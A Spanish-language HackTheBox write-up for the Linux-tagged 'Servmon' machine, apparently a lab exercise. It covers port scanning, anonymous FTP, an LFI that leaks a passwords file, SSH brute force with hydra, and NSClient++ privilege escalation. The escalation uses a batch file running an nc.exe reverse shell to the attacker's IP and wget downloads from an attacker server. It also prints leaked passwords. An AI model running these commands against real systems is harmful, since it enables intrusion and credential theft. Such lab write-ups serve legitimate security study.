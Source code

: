 ```yaml
---
title: HackTheBox - Servmon
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'RCE Webmin (CVE-2019-12840)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Servmon/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Servmon Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, RCE Webmin (CVE-2019-12840)**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Servmon/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Servmon/02-versions.png)

* Puntos principales:
    + [x] Podemos acceder de forma anónima al servicio FTP.
    + [x] Tenemos dos sitios web: **HTTP - 80 | HTTPS - 8443**
    + [x] El servicio SSH se encuentra habilitado

Inspeccionamos el servicio **FTP** en buscar de cualquier información y la descargamos

```bash
❯  ftp 10.10.10.184
Name (10.10.10.184:kali): anonymous
ftp> dir
02-28-22  07:35PM       <DIR>          Users
ftp> cd Users
ftp> dir
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
ftp> cd Nadine
02-28-22  07:36PM                  168 Confidential.txt
ftp> get Confidential.txt
ftp> exit

❯ cat Confidential.txt

Nathan,
I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadine
```

Aquí nos mencionan que existe un archivo **passwords.txt** en el escritorio del usuario nathan.

c. Al buscar por vulnerabilidades del servicio **HTTP** llegamos a un [LFI](https://www.exploit-db.com/exploits/48311)

![](/assets/images/HTB/Easy/Servmon/03-lfi.png)

Una vez obtenemos el fichero antes mencionado, hacemos fuerza bruta en el servicio **SSH** con hydra a los dos usuarios (nathan y nadine)

```bash
❯ hydra -L users.txt -P passwords.txt ssh://10.10.10.184 -t 4

[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
```

### Escalada de Privilegios 💹

a. Al enumerar el sistema, encontramos el directorio 'C:\Program Files\NSClient++' y si buscamos vulnerabilidades asociadas, encontramos una para [escalación de privilegios](https://www.exploit-db.com/exploits/46802)

Aquí usan el servicio **https** del puerto `8443`, y para llevar acabo este exploit debemos tener en cuenta múltiples puntos

1. Obtenemos la contraseña actual

    ```bash
    nadine@SERVMON C:\Program Files\NSClient++>.\nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT
    ```

2. De primeras nos seremos capaces de acceder al servicio **NSClient++** 

    ![](/assets/images/HTB/Easy/Servmon/04-error.png)

    > Para solucionar esto debemos realizar Local Port Forwarding: `sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@<IP Servmon> -L 8443:127.0.0.1:8443`
    {: .prompt-tip }


3. Ahora, debemos descargarnos [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) y creamos un fichero .bat para entablar una reverse shell

    ```bat
    @echo off
    C:\temp\nc.exe -e cmd <tun0 IP> 443
    ```

    * Transferimos estos ficheros al directorio **`C:\temp`**

        ```cmd
        ❯ python -m http.server 80
        -----------------------------------------------------------------
        nadine@SERVMON C:\>mkdir temp
        nadine@SERVMON C:\temp>powershell
        PS C:\temp> wget http://<tun0 IP>/nc.exe -OutFile "./nc.exe"
        PS C:\temp> wget http://<tun0 IP>/test.bat -OutFile "./test.bat"
        ```

4. Nos autenticamos en el servicio NSClient++ y lo configuramos para ejecutar el script **test.bat**

    ![](/assets/images/HTB/Easy/Servmon/05-script.png)

    * Nos ponemos en escucha con **nc**, reiniciamos NSClient++ y luego damos clic en el apartado `Queries`

> En caso de no recibir la reverse shell reiniciamos la **Máquina Servmon**
{: .prompt-warning }

Después de todo este proceso recibimos la reverse shell

```bash
❯ nc -lvnp 443                                                                                            
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.184] 50986
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```